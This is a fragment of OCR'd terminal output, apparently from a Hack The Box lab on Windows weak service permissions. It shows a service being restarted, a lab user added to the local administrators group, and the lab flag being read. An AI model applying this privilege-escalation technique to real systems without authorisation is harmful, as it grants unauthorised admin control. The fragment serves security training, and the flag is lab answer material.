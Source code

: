 
c:\Tools>sc start WindscribeService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

c:\Tools>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
htb-student
mrb3n
The command completed successfully.

Run cmd as administrator (enter htb-student password)

C:\WINDOWS\system32>type c:\Users\Administrator\Desktop\WeakPerms\flag.txt
Aud1t_th0se_s3rv1ce_p3rms!